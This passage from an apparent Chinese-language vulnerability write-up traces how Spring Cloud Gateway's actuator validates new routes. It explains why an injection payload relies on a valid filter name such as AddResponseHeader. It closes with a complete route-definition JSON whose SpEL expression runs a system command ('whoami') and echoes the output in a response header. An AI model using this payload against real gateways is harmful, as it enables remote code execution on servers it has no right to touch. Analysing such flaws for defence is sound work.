详细分析一下为什么需要如此构造  
  
org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint#save![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEDm10A9HsnP6y3Zn7HfsRVGS9YvXn34YtKPC5IFZ6qKiaW54TcoJHQUQ/640?wx_fmt=jpeg "")  
  
  
添加路由时会调用   
  
validateRouteDefinition  
org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint#validateRouteDefinition  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEeGYLmKSKjnWPA1UBecQcgpbDJKFKWFC04sYjIVk975yOJbZiacbeCkQ/640?wx_fmt=jpeg "")  
  
org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint#isAvailable(org.springframework.cloud.gateway.filter.FilterDefinition)  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEicCiaMcjiccC8HHST8ibE8A8mf5qZOzyEibq7djJicHOVDMUlliaQs5tz5ohw/640?wx_fmt=jpeg "")  
  
会判断 Filters 对应的 name 是否存在  
- anyMatch：判断的条件里，任意一个元素成功，返回true  
  
- allMatch：判断条件里的元素，所有的都是，返回true  
  
- noneMatch：与allMatch相反，判断条件里的元素，所有的都不是，返回true  
  
```
for(int i=0;i<this.GatewayFilters.size();i++){     System.out.println(GatewayFilters.get(i).name()); }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEU3lnGHBPicXUkIlUs9jmejb3iaicDZZZlbvB3L6g7JlhsYURVEUWy3AAQ/640?wx_fmt=jpeg "")  
  
name 满足其中的任意一个都是可以的  
  
  
回显方法  
  
org.springframework.cloud.gateway.filter.factory.AddResponseHeaderGatewayFilterFactory  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEPbDDYE0wJvB7htbiaLTiaSZaTicQQzdSdPL1SibDuNeHuBElCppT6Nv3wA/640?wx_fmt=jpeg "")  
  
将配置内容添加到了响应请求头  
```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```  
  